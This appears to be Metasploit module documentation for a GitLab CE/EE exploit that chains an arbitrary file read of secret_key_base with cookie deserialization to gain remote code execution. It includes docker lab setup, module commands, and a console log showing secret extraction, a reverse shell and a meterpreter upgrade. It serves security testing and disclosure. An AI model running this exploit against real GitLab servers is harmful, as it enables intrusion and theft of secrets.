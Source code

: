 ## Vulnerable Application

### Description

This module provides remote code execution against GitLab Community
Edition (CE) and Enterprise Edition (EE). It combines an arbitrary file
read to extract the Rails "secret_key_base", and gains remote code
execution with a deserialization vulnerability of a signed
'experimentation_subject_id' cookie that Gitlab uses internally for A/B
testing.

Note that the arbitrary file read exists in GitLab EE/CE 8.5 and later,
and was fixed in 12.9.1, 12.8.8, and 12.7.8. However, the RCE only affects
versions 12.4.0 and above when the vulnerable `experimentation_subject_id`
cookie was introduced.

Tested on GitLab 12.8.1 and 12.4.0.

### Setup

Running GitLab 12.8.1 with docker:

```
sudo docker run \
  --rm \
  --publish 443:443 --publish 80:80 --publish 22:22 \
  --name gitlab \
  gitlab/gitlab-ee:12.8.1-ee.0
```

The application will be available on port 80 or 443. This may take a long time.
You can either create a user account normally or programmatically as shown below.

Connect to the running gitlab instance:

```
sudo docker exec -it gitlab /bin/bash
```

Open an interactive rails console:

```
gitlab-rails console -e production
```

Optional - Set the Gitlab `root` account credentials:

```
admin = User.where(id: 1).first
admin.update!(
    password: 'password123',
    password_confirmation: 'password123',
    confirmation_token: nil,
    confirmed_at: Time.now,
    confirmation_sent_at: nil,
    failed_attempts: 0
)
admin.skip_reconfirmation!
```

Create a normal user account:

```
user = User.new(
    username: 'test',
    name: 'test',
    email: 'test@example.com',
    password: 'password123',
    password_confirmation: 'password123',
    confirmation_token: nil,
    confirmed_at: Time.now,
    confirmation_sent_at: nil,
    failed_attempts: 0
)
user.save!
user.skip_confirmation!
```

Once finished, kill the running docker container with:

```
docker kill gitlab
```

## Verification Steps

 1. Run the application
 1. Start msfconsole
 1. `use exploit/multi/http/gitlab_file_read_rce`
 1. `set RPORT <port>`
 1. `set RHOST <ip>`
 1. `set USERNAME test@example.com`
 1. `set PASSWORD password123`
 1. `check`

```
[*] 10.10.10.111:9999 - The target appears to be vulnerable.
```

 1. `set LPORT <port>`
 1. `set LHOST <ip>`
 1. `run`
 1. You should get a shell.

## Scenarios

```
msf6 exploit(multi/http/gitlab_file_read_rce) > options

Module options (exploit/multi/http/gitlab_file_read_rce):

   Name          Current Setting                             Required  Description
   ----          ---------------                             --------  -----------
   DEPTH         15                                          yes       Define the max traversal depth
   PASSWORD      password123                                 yes       The password for the specified username
   Proxies                                                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS        127.0.0.1                                   yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<
                                                                       path>'
   RPORT         80                                          yes       The target port (TCP)
   SECRETS_PATH  /opt/gitlab/embedded/service/gitlab-rails/  yes       The path to the secrets.yml file
                 config/secrets.yml
   SECRET_KEY_BASE                                           no        The known secret_key_base from the secrets.yml (this skips the arbitrary file read)
   SSL           false                                       no        Negotiate SSL/TLS for outgoing connections
   TARGETURI     /users/sign_in                              yes       The path to the vulnerable application
   USERNAME      test@example.com                            yes       The username to authenticate as
   VHOST         gitlab.example.com                          no        The virtual host name to use in requests


Payload options (generic/shell_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  docker0          yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic


msf6 exploit(multi/http/gitlab_file_read_rce) > rerun

[*] Started reverse TCP handler on 172.17.0.1:4444
[*] Executing automatic check (disable AutoCheck to override)
[+] The target appears to be vulnerable.
[*] Logged in to user test
[*] Created project /test/pKUuduxC
[*] Created project /test/5W350yP1
[*] created issue /test/pKUuduxC/issues/1
[*] Executing arbitrary file load
[+] File saved as: '/home/kali/.msf4/loot/20201121213408_default_127.0.0.1_gitlab.secrets_675303.txt'
[+] Extracted secret_key_base e41f3a01d22ff6a694be33bf2e5d40af89b788088938203c3478818da595731ada41c2b9c3d3caff79de7647a0c287bb68f6ca1912904a766237543013c46594
[*] Attempting to delete project /test/pKUuduxC
[*] Command shell session 23 opened (172.17.0.1:4444 -> 172.17.0.2:34058) at 2020-11-21 21:34:08 -0500
[*] Deleted project /test/pKUuduxC
[*] Attempting to delete project /test/5W350yP1
[*] Deleted project /test/5W350yP1

whoami
git
^Z
Background session 23? [y/N]  y
msf6 exploit(multi/http/gitlab_file_read_rce) > sessions -u 23
[*] Executing 'post/multi/manage/shell_to_meterpreter' on session(s): [23]

[!] SESSION may not be compatible with this module.
[*] Upgrading session ID: 23
[*] Starting exploit/multi/handler
[*] Started reverse TCP handler on 172.17.0.1:4433
[*] Sending stage (976712 bytes) to 172.17.0.2
[*] Meterpreter session 24 opened (172.17.0.1:4433 -> 172.17.0.2:45442) at 2020-11-21 21:34:34 -0500
[*] Command stager progress: 100.00% (773/773 bytes)
msf6 exploit(multi/http/gitlab_file_read_rce) > sessions

Active sessions
===============

  Id  Name  Type                   Information                                                     Connection
  --  ----  ----                   -----------                                                     ----------
  23        shell ruby/ruby                                                                        172.17.0.1:4444 -> 172.17.0.2:34058 (127.0.0.1)
  24        meterpreter x86/linux  git @ 622b6a4c6722 (uid=998, gid=998, euid=998, egid=998) @ 17  172.17.0.1:4433 -> 172.17.0.2:45442 (172.17.0.2)
                                   2.17.0.2

msf6 exploit(multi/http/gitlab_file_read_rce) >
```

